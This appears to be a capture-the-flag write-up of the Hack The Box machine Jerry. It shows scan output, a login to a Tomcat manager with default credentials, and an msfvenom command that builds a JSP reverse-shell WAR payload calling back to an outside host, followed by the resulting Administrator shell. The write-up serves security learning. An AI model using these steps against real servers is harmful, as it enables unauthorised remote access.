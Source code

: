 ```yaml
---
title:     "Hack The Box - Jerry"
tags: [windows,easy,tomcat]
layout: post
---
```



![694398c04fbbb4b4c6b507180ee3fb06.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jerry/70f494906c3d48118c3b9a09dc3e7620.png)

We are going to pwn Jerry from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/144>

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTP:

Only HTTP Port is open, and its running `Tomcat` service and its version is `7.0.88`. We get the default tomcat configuration page.


![679f2e5cfa08b4e9f4bbcebeed0010af.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jerry/763886848f9a45c6aac20183903457fe.png)


## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/20 10:22:14 Starting gobuster
===============================================================
/aux (Status: 200)
/com1 (Status: 200)
/com2 (Status: 200)
/com3 (Status: 200)
/con (Status: 200)
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/lpt1 (Status: 200)
/lpt2 (Status: 200)
/manager (Status: 302)
===============================================================
2020/04/20 10:24:23 Finished
===============================================================
```

`/manager`
There is a login page for manager.So let’s try to access it .
![a0986527fad314f30d5833f4792350ad.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jerry/76e47a71750346bbadcb1f91634d868f.png)
The default login credentials for Tomcat. You can get [here](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown).

Logged in successfully with `tomcat : s3cret`


![adeb7712828d540a6af85e0050add2d8.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jerry/2c7cfa06a42540c8ad26bc835670ba73.png)

Here we can see the information about the box.


![1163529f91334808e8417d5e61f4825f.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jerry/af8940be7c0141c4a88476e5b0ca0925.png)

There is a option to upload `WAR` files.


![ea70bbc644929d40c4fdc22a7bdcb11c.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jerry/e12823f25b6d4e80a75bab9783e40150.png)

> WAR file is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages and other resources that together constitute a web application.

We can use `msfvenom` for generating a `.war` format payload.
```
root@w0lf:~/CTF/HTB/Boxes/Jerry# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
```
## Getting Shell:


![1f6a90af94b8fa8eb5ec47af6aa16476.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jerry/27cfc16afbfa4949aac984950183cbaf.png)

The file name is `shell.war` so I can access it as `/shell`

![46508d9cfbb7f76846acbd7434f520bf.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jerry/a779bab5194b478c98de5c4e91c7da8f.png)

```
C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator

06/18/2018  11:31 PM    <DIR>          .
06/18/2018  11:31 PM    <DIR>          ..
06/19/2018  06:43 AM    <DIR>          Contacts
06/19/2018  07:09 AM    <DIR>          Desktop
06/19/2018  06:43 AM    <DIR>          Documents
06/19/2018  06:43 AM    <DIR>          Downloads
06/19/2018  06:43 AM    <DIR>          Favorites
06/19/2018  06:43 AM    <DIR>          Links
06/19/2018  06:43 AM    <DIR>          Music
06/19/2018  06:43 AM    <DIR>          Pictures
06/19/2018  06:43 AM    <DIR>          Saved Games
06/19/2018  06:43 AM    <DIR>          Searches
06/19/2018  06:43 AM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,602,595,840 bytes free
               
C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
70----------------------------00

root.txt
04----------------------------0e
               

```

